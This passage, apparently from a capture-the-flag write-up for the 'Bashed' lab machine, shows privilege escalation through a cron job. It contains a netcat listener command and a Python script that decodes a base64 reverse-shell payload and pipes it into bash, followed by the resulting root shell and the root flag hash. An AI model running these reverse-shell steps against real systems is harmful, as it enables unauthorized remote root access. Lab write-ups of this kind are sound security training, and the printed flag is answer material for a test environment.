 First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

I'll create a `privesc.py` file to execute this command:

```py
import os

os.system("/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i")
```

We just have to wait for the cronjob to execute. Then, if we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.68] 42786
<SNIP>
root@bashed:/scripts#
```

It caught the reverse shell!

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@bashed:/scripts# cat "/root/root.txt"
```

```
82ff29fb789abf36d69ea046c1847967
```

# Afterwords
